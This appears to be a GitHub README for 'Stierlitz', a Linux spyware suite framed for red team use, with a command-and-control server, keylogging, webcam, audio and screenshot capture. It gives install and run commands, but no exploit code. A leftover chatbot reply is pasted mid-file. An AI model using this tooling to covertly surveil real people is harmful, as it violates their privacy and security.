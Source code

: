 # STIERLITZ
---

![stierlitz](img/stierlitz.jpg)

**Stierlitz** is a Linux-based, multi-client spyware suite designed for red team operations. It provides a range of real-time surveillance and data exfiltration capabilities, including:

-  Webcam capture with live display (`webcam-recorder`)
-  Periodic screenshot capture (X11 only)
-  ALSA audio harvesting with playback (`alsa-harvester`)
-  Keylogging with layout support
-  File downloading

---

## Project Structure

- **`Client/`** – The malware agent deployed on the target machine.
- **`Server/`** – Acts as a command-and-control proxy between clients and tunnels. Manages clients, data routing (via FIFOs), and status tracking.
- **`URXVT/`** – Tunnel modules launched in isolated `urxvt` terminals. Each tunnel handles a specific stream (e.g., video, audio, screenshots) and performs display, processing, or saving.

> ⚠️ **Note**: Each tunnel spawns a dedicated `urxvt` instance using custom profiles located in `URXVT/profiles/`. If you're an existing URXVT user, it's **highly recommended** you back up your configuration before running `urxvt_setup.sh`. While it avoids overwriting, it's best to be cautious.

---

## Installation

```bash
./install_malware.sh      # Installs client dependencies
./install_server.sh       # Installs server dependencies
./urxvt_setup.sh          # Sets up urxvt profiles for tunnels
```

## Build

```
mkdir build && cd build
cmake ..
make
```

- To enable debugging and print statements from the client during runtime, build in Debug mode:
```
cmake -DCMAKE_BUILD_TYPE=Debug ..
```

Got it! Here's the full section starting from **Usage**, written as valid Markdown content (not inside a code block), so you can copy and paste it directly into your `README.md` file:

---

## Usage

### Run the Malware

```bash
./client <IP> <port>
```

---

### Command Reference

![help](img/help.png)

#### `list`

Displays all active clients, their IP addresses, corresponding indexes, current status, and active tunnels.

![list](img/list.png)

---

#### `keylogger`

> ⚠️ Requires root privileges

By default, it uses `/dev/input/event0`. To change the input device:

```bash
-d <index> 
eg. -d 10
```

To change the keyboard layout (default is `"us"`):

```bash
-l <layout> or --layout <layout>
```

To list available input devices:

```bash
get-dev
```

![keylogger](./img/keylogger.png)

---

#### `webcam-recorder`

> ⚠️ Requires access to `/dev/videoX` (uses `videodev2`)

Streams the webcam feed in real time.

![webcam-recorder](./img/webcam-recorder.png)

---

#### `alsa-harvester`

> ⚠️ Depends on ALSA; stereo-only for now

Captures audio from an ALSA input device and plays it on an output device.

**Defaults:**

* Input: `hw:0,0`
* Output: `hw:0,0`

To identify devices:

```bash
arecord -l   # Lists input devices
aplay -l     # Lists output devices
```

**Arguments:**

> ⚠️ Make sure to use headphones if you are testing this feature on the same computer in order to prevent high pitch audio due to a sound loop. Pick the corresponding -hwo

* `-hwi`: ALSA input device
* `-hwo`: ALSA output device

![alsa-harvester](./img/alsa-harvester.png)

---

#### `screen-hunter`

> ⚠️ Only works on X11 (not compatible with Wayland)

Captures screenshots at fixed intervals.

**Default FPS:** `0.2` (1 screenshot every 5 seconds)

To change:

```bash
-fps <float>
```

![screen-hunter](./img/screen-hunter.png)

---

## To Do

* Add output saving functionality to `screen-hunter` and `alsa-harvester`.
* Support mono devices in `alsa-harvester`.
* Implement additional commands such as `cat`, process listing, and remote shell.

---